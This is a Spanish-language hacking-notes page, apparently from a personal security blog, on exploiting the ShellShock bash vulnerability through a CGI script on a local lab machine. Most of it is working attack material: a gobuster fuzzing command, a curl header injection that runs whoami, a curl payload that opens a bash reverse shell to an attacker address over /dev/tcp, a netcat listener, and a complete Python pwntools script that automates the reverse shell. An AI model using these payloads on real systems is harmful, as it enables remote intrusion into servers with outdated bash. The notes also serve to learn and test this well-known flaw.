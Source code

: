 ```yaml
---
layout: single
title: Ataque ShellShock - Hacking Notes
excerpt: "Apuntes de la vulnerabilidad ShellShock (Spanish)"
date: 2025-03-16
classes: wide
header:
  teaser: /img2/obsidian.jpg
  teaser_home_page: true
  icon: /img2/images/Dashboard.jpeg
categories:
  - Hacking Notes
  - Web
tags:
  - Shellshock
---
```



# Índice 
--------
1. [[#Identificar vulnerabilidad]]
2. [[#Explotación de ShellShock]]

-------------

## Identificar vulnerabilidad

- Para que ocurra el ataque ShellShock la bash del sistema tiene que estar desactualizada.

- Normalmente, si encuentras un directorio /cgi-bin/, puede ser factible testear un ShellShock
![](/img/Pasted%20image%2020241217170001.png)


- Fuzzing sobre el directorio /cgi-bin
```bash
gobuster dir -u http://192.168.1.177/cgi-bin --proxy http://192.168.1.177:3128 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x pl,sh,cgi
```
![](/img/Pasted%20image%2020241217171034.png)


- Vemos que en el directorio status se está ejecutando el comando uptime
```
curl -s http://192.168.1.177/cgi-bin/status --proxy http://192.168.1.177:3128 | jq
```
![](/img/Pasted%20image%2020241217171256.png)

Vemos que se actualiza el comando cada vez que hacemos la petición 

## Explotación de ShellShock

- Probamos si ejecuta comandos
```bash
curl -s http://192.168.1.177/cgi-bin/status --proxy http://192.168.1.177:3128 -H "User-Agent: () { :; }; echo; /usr/bin/whoami"
```
![](/img/Pasted%20image%2020241217171921.png)

A veces es necesario poner uno o mas echo; para ver el comando

- Nos mandamos una reverse shell
```bash
curl -s http://192.168.1.177/cgi-bin/status --proxy http://192.168.1.177:3128 -H "User-Agent: () { :; };  /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.170/443 0>&1'"
```
```bash
nc -nlvp 443
```
![](/img/Pasted%20image%2020241217172552.png)


--------
## Crear script en python para la reverse shell (OPCIONAL)

```python
#!/usr/bin/env python3 

import sys,signal,requests, threading
from pwn import *

def def_handler(sig,frame):
  print("\n\n[!] Saliendo...\n")

signal.signal(signal.SIGINT,def_handler)

main_url = "http://192.168.1.177/cgi-bin/status"
proxy= {'http': 'http://192.168.1.177:3128'}
lport = 443

def shellshock():
  headers= {'User-Agent': "() { :; }; /bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.1.170/443 0>&1'"}

  r = requests.get(main_url, headers=headers, proxies=proxy)

if __name__=='__main__':

  try:
    threading.Thread(target=shellshock, args=()).start()
  except Exception as e:
    log.error(str(e))

  shell= listen(lport, timeout=20).wait_for_connection()

  if shell.sock is None:
    log.failure("No se puedo establecer conexión")
    sys.exit(1)
  else:
    shell.interactive()
```